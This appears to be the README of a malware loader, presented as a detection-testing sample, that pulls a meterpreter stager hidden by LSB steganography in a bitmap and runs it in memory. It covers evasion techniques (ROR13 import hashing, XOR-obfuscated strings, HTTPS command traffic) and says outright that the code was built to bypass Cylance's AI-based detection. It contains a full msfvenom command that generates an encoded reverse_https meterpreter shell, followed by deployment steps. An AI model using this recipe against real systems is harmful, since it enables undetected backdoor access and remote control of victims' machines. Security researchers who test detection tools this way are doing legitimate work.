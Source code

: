 # Description
This is a test malware sample used to load LSB encoded code from the internet. This specific sample template works with LSB encoded bitmap files to extract a stager payload for meterpreter.

The goal is to demonstrate a means of loading malicious code onto a system
without ever touching disk. Additionally, the code leverages a method of
loading require API functionality via accessing the loaded modules directly
from the PEB (Process Execution Block).

This method allows the code to gain access to the Kernel32.dll functions in
order to load additionaly libraries using the LoadLibraryA exported function.
All of the functions loaded leverage a ROR13 hashing technique to avoid any
strings from showing up during static analysis. This makes it much more difficult
for an analysis system or signature detection system to determine the malicious
nature of the binary.

Any other strings that are required in raw form are encoded with a simple XOR
and offset. These strings will no longer be visible to static analysis, but can
easily be decoded at run time to generate required information (URLs, user agents,
etc).

Finally, since LSB steganography is leveraged to download the backdoor, there
are minimal malicious artifacts in the core binary that would allow any detection
from making a determination that this is malicious. The only point when it would
be possible to tell is after the meterpreter shell has been extracted from the
bitmap and loaded directly into memory. The stager payload leverages the executable
encoder shikata-ga-nai to obfuscate the staged payload that is retrieved from the
LSB encoded bitmap file. All communicate done from the meterpreter stager and shell
is done over HTTPS (SSL/TLS) to avoid network based indicators from tripping
security tools.

1. Generating the meterpreter stager:
  msfvenom -p windows/meterpreter/reverse_https LHOST=10.248.189.74 LPORT=443 -b '\x00\xff' -e x86/shikata_ga_nai -i 3 -f raw
2. Run the stego encoder with the binary output from above and a desired bitmap
3. Host the bitmap on some HTTP site
4. Set the desired target URL for the bitmap in Utils.h (LSB_TARGET_URL (see HideStrings))
5. Compile and run

Note:
  This is a sample to test malware detection capabilities on security software. The
  provided code was designed to bypass Cylance's AI based detection engine.

Summary of Tactics implemented:

  1. ROR13 hashing - Manually resolving imports
    https://nickharbour.wordpress.com/2010/07/01/writing-shellcode-with-a-c-compiler/
    https://www.fireeye.com/blog/threat-research/2012/11/precalculated-string-hashes-reverse-engineering-shellcode.html
  2. String Obfuscation - XOR with Offset
  3. LSB Steganography - encoding malware into benign picture file (used when downloading the meterpreter stage)
  4. In-memory execution - allocates space and launches payload directly from memory (never touch disk)
  5. SSL - communication over SSL to avoid network detection

--------

Future possibilities:

  1. Staged-Encoding - encodes the staged payload to look benign on the wire
  2. Unhooking/remapping binaries
